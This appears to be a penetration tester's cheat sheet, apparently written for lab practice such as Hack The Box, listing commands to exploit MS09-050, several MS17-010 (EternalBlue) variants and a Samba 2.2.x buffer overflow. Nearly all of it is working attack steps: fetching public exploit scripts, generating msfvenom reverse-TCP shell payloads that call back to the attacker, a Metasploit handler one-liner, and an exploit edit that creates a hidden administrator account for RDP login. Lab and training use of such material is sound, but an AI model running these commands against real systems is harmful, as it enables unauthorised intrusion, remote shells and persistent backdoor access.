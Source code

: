 ```yaml
---
category: Uncategorized
tags: []
---
```

#### MS09-50
```bash - kali
wget https://raw.githubusercontent.com/ohnozzy/Exploit/master/MS09_050.py
```

```python - kal
pip2.7 install pysmb
```

```bash - kali
msfvenom -p windows/shell/reverse_tcp LHOST=$KALI LPORT=443 EXITFUNC=thread -f c
```

---
1 - Liner
```bash - kali
msfconsole -x "use exploit/multi/handler;set payload windows/shell/reverse_tcp;set EXITFUNC thread;set LHOST $Kali;set LPORT 443;run;"
```

---

```bash - kali
sudo msfdb run
```

```bash - kali
use exploit/multi/handler
```

```bash - kali
set payload windows/shell/reverse_tcp
```

```bash - kali
set EXITFUNC thread
```

```bash - kali
run
```

```bash - kali
pip install pysmb -t .
```

```bash - kali
python MS09_050.py $TARGET
```

```bash - kali
python3 ms09-050.py $TARGET
```

#### MS17-010 method 1

https://medium.com/@simonsulyma/hack-the-box-legacy-penetration-testing-without-metasploit-44b628fe870f

```bash - kali
git clone https://github.com/helviojunior/MS17-010 && cd MS17-010/ && python checker.py $TARGET
```

```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f exe > ms17–010.exe
```

![[rlwrap]]

```bash - kali
python send_and_execute.py $TARGET ms17–010.exe
```

#### MS17-010 method 2 (RDP)

```bash - kali
wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py
```

```bash - kali
searchsploit -m 42315
```

Edit 42315, replacing the block of code from 916 - 920 with the following:

```python - kali
	print('Sending exploit')
	service_exec(conn, r"cmd /c net user bob pass /add")
	service_exec(conn, r"cmd /c net localgroup administrators bob /add")
```

```bash - kali
python 42315.py $TARGET
```

```bash - kali
rdesktop -a 16 -z $TARGET -u bob -p pass
```

#### MS17-010 method 3
```bash - kali
searchsploit -m 42031
```

```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f raw EXITFUNC=thread -o exploit.bin
```

![[rlwrap]]

```bash - kali
python 42031.py $TARGET exploit.bin
```

#### Samba 2.2.x - Remote Buffer Overflow
```bash - kali
searchsploit -m 7
```

```bash - kali
chmod +x 7.pl
```

```bash - kali
./7.pl -t linx86 -H $KALI -h $TARGET
```

